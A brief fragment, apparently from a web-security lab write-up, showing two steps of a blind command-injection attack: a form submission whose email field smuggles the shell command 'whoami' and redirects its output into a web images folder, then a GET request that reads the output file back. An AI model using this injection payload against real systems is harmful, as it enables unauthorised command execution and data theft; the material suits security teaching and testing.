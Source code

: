 1. ieCRwES3iFAZ365uCghorxU97S1Bo63i&name=abcd&email=whoami>/var/www/images/output.txt&subject=abcd&message=dcba
2.	GET /image?filename=whoami.txt 
